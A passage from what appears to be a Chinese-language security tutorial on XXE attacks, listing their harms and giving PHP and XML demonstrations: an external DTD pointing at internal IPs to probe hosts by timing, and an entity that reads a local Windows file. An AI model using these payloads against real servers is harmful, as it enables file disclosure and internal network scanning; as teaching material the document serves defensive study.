 ## 可能造成的危害

- 本地文件读取
- 内网访问，主机/端口扫描
- 网络访问
- 系统命令执行（特定协议，如PHP的expect）
- 拒绝服务（嵌套引用，指数爆炸）

# HOW



URI支持的协议：

![scheme support](1534066968195.png)

## 利用引用外部DTD发起网络请求

`test.php` 使用外部DTD对XML进行验证，如果XML可以注入且DTD的URI可控，就有发起网络请求的可能。在`192.168.1.2:80` 有Web服务而`192.168.1.3:80` 没有，DTD的URI不同时访问 `test.php` 就会得到不同的响应。

test.php

```php
<?php
// error_reporting(0);
$dom = new DOMDocument;
$dom->load('with_external_dtd.xml');
if ($dom->validate()) {echo "validated!\n";}
else echo "invalid!\n";
```

with_external_dtd.xml

```xml
<?xml version="1.0"?>
<!-- 很快返回 validated! -->
    <!DOCTYPE note SYSTEM "external_dtd">
<!-- 很快返回 invalid! -->
    <!-- <!DOCTYPE note SYSTEM "http://192.168.1.2/"> -->
<!-- 很长一段时间才返回 invalid! -->
    <!-- <!DOCTYPE note SYSTEM "http://192.168.1.3/"> -->
<note>Valar Morghulis</note>
```

external_dtd

```dtd
<!ELEMENT note (#PCDATA)>
```

## 利用普通XXE读取文件/访问网络

```php
<?php
$s=<<<string
<!DOCTYPE a [<!ENTITY b SYSTEM "file:///C:/Windows/win.ini">]>
<c>&b;</c>
string;
echo simplexml_load_string($s);
```
